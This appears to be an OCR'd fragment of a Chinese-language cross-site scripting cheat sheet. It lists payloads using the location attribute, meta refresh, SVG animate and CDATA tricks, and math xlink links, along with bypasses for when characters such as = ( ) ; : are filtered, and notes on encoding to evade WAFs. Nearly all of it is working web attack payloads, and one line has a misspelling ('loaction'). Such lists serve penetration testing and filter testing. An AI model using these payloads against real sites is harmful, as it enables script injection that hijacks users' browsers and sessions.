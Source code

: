 #### location属性

```
<a onmouseover=location='javascript:alert(1)'>click
<body onfocus="loaction='javascript:alert(1)'">123

```

#### 其他的一些payload

```
<meta http-equiv="refresh" content="0;url=//goo.gl/nlX0P">
<meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>
<svg xmlns="http://www.w3.org/2000/svg"><g onload="javascript:\u0061lert(1);"></g></svg>
<svg xmlns:xlink="http://www.w3.org/1999/xlink"><a><circle r=100 /><animate attributeName="xlink:href" values=";javascript:alert(1)" begin="0s" dur="0.1s" fill="freeze"/>
<svg><![CDATA[><imagexlink:href="]]><img/src=xx:xonerror=alert(2)//"></svg>
<meta content="&NewLine; 1 &NewLine;;JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
<math><a xlink:href="//jsfiddle.net/t846h/">click

```

#### 当= ( ) ; :被过滤时

```
<svg><script>alert&#40/1/&#41</script> // 通杀所有浏览器

```

opera中可以不闭合

```
<svg><script>alert&#40 1&#41 // Opera可查

```

### 实体编码

很多情况下WAF会实体编码用户的输入数据，

javascript是一个很灵活的语言，可以使用很多编码，比如十六进制，Unicode和HTML。但是也对这些编码可以用在哪个位置有规定：

属性：

```
href=
action=
formaction=
location=
on*=
name=
background=
poster=
src=
code=

```
